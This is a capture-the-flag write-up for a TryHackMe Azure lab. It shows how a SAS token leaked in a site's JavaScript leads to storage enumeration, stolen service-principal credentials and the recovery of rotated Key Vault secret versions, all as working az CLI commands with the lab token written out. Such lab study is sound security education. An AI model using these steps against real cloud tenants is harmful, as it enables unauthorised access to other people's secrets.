




# Day 9: CryptoCabana - TryHackMe Hacker Holidays Write-up

<p align="center">
  
  
  
</p>

---

## 📝 Objective

The challenge revolves around investigating a cloud-hosted web application backed by Azure Storage. The objective is to identify exposed cloud credentials, enumerate accessible Azure resources, and recover the flag stored inside Azure Key Vault.

---

## 🔍 Reconnaissance & Source Code Analysis

* **Inspecting the Website:** I opened the provided CryptoCabana website and viewed its page source. The only interesting resource was `app.js`.
* **Finding the Initial Foothold:** Inspecting the JavaScript revealed the Azure Storage account name, blob container, and a **Shared Access Signature (SAS)** token used by the application for backups. Since the token included **Read** and **List** permissions, it could also be used to enumerate the storage account.

<p align="center">
  
</p>

---

## ☁️ Azure Storage Enumeration

Using the provided Azure Cloud Shell, I saved the Storage Account name and SAS token before enumerating the available blob containers.

```bash
ACCOUNT='cryptocabanaf5scjagc'
SAS='?sv=2022-11-02&ss=b&srt=sco&sp=rl&se=2099-12-31T23:59:59Z&st=2024-01-01T00:00:00Z&spr=https&sig=ZAo05W8KXdSLM9afYCNGogNRV2N5a6aB4dQI3LXz%2Fh0%3D'

az storage container list --account-name "$ACCOUNT" --sas-token "$SAS" --query '[].name' --output table
```

Three containers were returned:

* `$web`
* `backups`
* `vault`

The `vault` container looked the most interesting, so I listed its contents.

```bash
az storage blob list --account-name "$ACCOUNT" --container-name vault --sas-token "$SAS" --query '[].{Name:name,Size:properties.contentLength,Modified:properties.lastModified}' --output table
```

The container contained two files:

* `seed_phrase.txt`
* `backup-service-account.json`

After downloading both blobs, the seed phrase turned out to be a decoy, while `backup-service-account.json` exposed a **Client ID**, **Client Secret**, **Tenant ID**, and **Key Vault** name.

<p align="center">
  
</p>

---

## 🔐 Azure Key Vault Enumeration

Using the credentials from the JSON file, I authenticated as the exposed service principal.

```bash
CLIENT_ID=$(jq -r '.client_id' backup-service-account.json)
CLIENT_SECRET=$(jq -r '.client_secret' backup-service-account.json)
TENANT_ID=$(jq -r '.tenant_id' backup-service-account.json)
VAULT_NAME=$(jq -r '.key_vault_name' backup-service-account.json)

az login --service-principal --username "$CLIENT_ID" --password "$CLIENT_SECRET" --tenant "$TENANT_ID" --allow-no-subscriptions
```

After verifying the login with `az account show`, I listed the available Key Vault secrets.

```bash
az keyvault secret list --vault-name "$VAULT_NAME" --query '[].{Name:name,Enabled:attributes.enabled,Updated:attributes.updated}' --output table
```

The vault contained four secrets, including three key shards. Retrieving `key-shard-1` and `key-shard-3` revealed two parts of the flag, while `key-shard-2` contained a note explaining that the secret had been rotated.

<p align="center">
  
</p>

Since Azure Key Vault stores previous secret versions, I listed the available versions of `key-shard-2` and retrieved the older one.

```bash
az keyvault secret list-versions --vault-name "$VAULT_NAME" --name key-shard-2 --output table

az keyvault secret show --vault-name "$VAULT_NAME" --name key-shard-2 --version 3d6492d2c6f74123bc754a9ded22b2a0 --query value --output tsv
```

The older version contained the missing flag fragment. Combining all three shards revealed the complete flag.

<p align="center">
  
</p>

---

## 🚩 Flag

* **Flag:** `THM{REDACTED}`

---

## 💡 Key Takeaways

* **Client-side Secrets:** Exposed Azure SAS tokens can allow attackers to enumerate and download sensitive blobs.
* **Storage Misconfigurations:** Leaked service account credentials inside Azure Storage can lead to privilege escalation.
* **Key Vault Versioning:** Rotated secrets remain recoverable through version history if an attacker has sufficient permissions.
* **Cloud Attack Chains:** A single exposed SAS token ultimately led to Azure Storage access, service principal compromise, Azure Key Vault enumeration, and complete flag recovery.
